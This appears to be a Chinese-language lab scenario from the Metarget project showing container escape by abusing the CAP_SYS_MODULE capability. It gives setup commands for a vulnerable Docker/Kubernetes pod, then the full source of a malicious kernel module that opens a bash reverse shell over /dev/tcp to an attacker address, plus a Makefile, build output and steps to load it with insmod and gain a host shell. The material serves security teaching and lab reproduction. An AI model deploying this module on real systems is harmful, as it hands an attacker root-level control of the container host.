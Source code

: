 # 滥用CAP_SYS_MODULE导致容器逃逸

## 场景介绍

cap_sys_module权限表示允许加载内核模块，容器与宿主机共享内核，所以可以在容器内加载包含恶意代码的内核模块，完成逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install cap_sys_module-container
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`cap-sys-module-container`的带有`CAP_SYS_MODULE`权限的pod。

注：此场景较为简单，也可以直接使用Docker手动搭建。复现漏洞可以使用任意版本的Docker，只需要在启动Docker时，通过`--cap-add`选项来添加`CAP_SYS_MODULE` capability的权限即可。

## 漏洞复现

1. 编写自定义模块`reverse-shell.c`，代码如下

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.19.xx/4321 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```

2. 编写Makefile文件：

```bash
obj-m +=reverse-shell.o
all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

3. 然后`make`编译模块：

```bash
make -C /lib/modules/4.15.0-132-generic/build M=/home/nsfocus/sys_module modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-132-generic'
  CC [M]  /home/nsfocus/sys_module/reverse-shell.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/nsfocus/sys_module/reverse-shell.mod.o
  LD [M]  /home/nsfocus/sys_module/reverse-shell.ko
```

4. 将编译生成的`reverse-shell.ko`文件拷贝至容器内，把`/sbin/insmod`、`/bin/kmod`拷贝至容器对应目录，执行insmod加载模块，最终成功获取宿主机的shell。

## 参考文献

1. https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd